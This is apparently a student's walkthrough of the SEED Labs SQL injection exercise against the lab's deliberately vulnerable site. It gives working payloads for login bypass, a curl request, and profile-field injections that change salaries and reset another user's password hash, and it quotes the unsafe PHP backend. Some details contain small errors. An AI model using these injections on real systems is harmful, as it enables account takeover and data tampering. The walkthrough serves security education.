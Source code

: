 # SQL-INJECTION
<table>
  <thead>
    <tr>
      <th>Title</th>
      <th>Author</th>
      <th>Date</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Seed Lab Ubunto 16.04 SQL Injection Attack</td>
      <td>Umar Shah</td>
      <td>29-10-2021</td>
    </tr>
  </tbody>
</table>
<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "***" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='***'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=500000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<pre><code>', Salary=1 where name='Boby' #</code></pre>
<h2>Task 3.3</h2>
<p>Of course, the simplest approach is to log-in as Boby like <code>Task 3.2</code> and change the password.</p>
<p>If we must do all things and keep log-in with Alice's own account. We might face such an issue:</p>
<p>According to code below in <code>unsafe_edit_backend.php</code>, if <strong>Password</strong> is to be updated, the session's <code>pwd</code> will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.</p>
<pre><span class="pl-s1"><span class="pl-c1">$</span>conn</span> = <span class="pl-en">getDB</span>();
<span class="pl-c">// Don't do this, this is not safe against SQL injection attack</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span>=<span class="pl-s">""</span>;
<span class="pl-k">if</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>!=<span class="pl-s">''</span>){
<span class="pl-c">// In case password field is not empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>hashed_</span> = <span class="pl-en">sha1</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>);
<span class="pl-c">//Update the password stored in the session.</span>
<span class="pl-s1"><span class="pl-c1">$</span><span class="pl-c1">_SESSION</span></span>[<span class="pl-s">'pwd'</span>]=<span class="pl-s1"><span class="pl-c1">$</span>hashed_pwd</span>;
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}<span class="pl-k">else</span>{
<span class="pl-c">// if passowrd field is empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">query</span>(<span class="pl-s1"><span class="pl-c1">$</span>sql</span>);
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">close</span>();
<span class="pl-en">header</span>(<span class="pl-s">"Location: unsafe_home.php"</span>);
<span class="pl-en">exit</span>();</pre>
<p>We should do all things in <strong>Phone Number</strong> field.</p>
<p>Assume we want to change Boby's password as <code>tedwashere</code>. First, we should get SHA1 value of our new password via some <a href="http://www.sha1-online.com/" rel="nofollow">online tool</a> as</p>
<pre><code>1b3263246794fe4094be7ae99e21b34454d9676f
</code></pre>
<p>Then construct <strong>Phone Number</strong> as:</p>
<pre><code>', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
</code></pre>
<p>and save. Now, the change works. You can log in with username <code>Boby</code> and password <code>tedwashere</code>.</p>
<p>Verify:</p>
<p>Screen shoot is in SQL Injection Folder</p>

